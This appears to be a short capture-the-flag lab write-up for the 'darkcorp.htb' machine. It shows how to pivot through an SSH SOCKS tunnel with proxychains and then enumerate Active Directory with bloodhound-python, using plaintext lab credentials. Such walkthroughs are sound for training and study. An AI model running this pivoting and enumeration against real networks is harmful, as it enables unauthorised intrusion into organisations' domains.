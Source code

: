 # Bloodhound by `victor`
Let's partially use `proxychains4`:
```
Remember your local /etc/hosts should be
10.10.11.54 drip.htb mail.drip.htb dev-a3f1-01.drip.htb
172.16.20.1 DC-01 DC-01.darkcorp.htb darkcorp.htb
172.16.20.2 WEB-01 WEB-01.darkcorp.htb
172.16.20.3 drip.darkcorp.htb

$ sudo apt install proxychains4
$ sudo nano /etc/proxychains4.conf

/etc/proxychains4.conf
dnat 10.10.14.17  172.16.20.1
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
socks5  127.0.0.1 1080
```

Then set up ssh forwarding
```
sshpass -p'ThePlague61780' ssh -o StrictHostKeyChecking=no -D 1080 ebelford@drip.htb
```

There is a good way to `ntpdate` the timezone with `dc01` server
```
DATE_UTC=$(ssh ebelford@drip.htb "date -u +%Y-%m-%dT%H:%M:%S")
sudo timedatectl set-timezone UTC
sudo date -s "$DATE_UTC"
```

Finally collect bloodhound information
```
proxychains4 bloodhound-python -u victor.r@darkcorp.htb -p 'victor1gustavo@#' -dc dc-01.darkcorp.htb --dns-tcp -ns 172.16.20.1 --dns-timeout 10 -c ALL -d darkcorp.htb --zip
```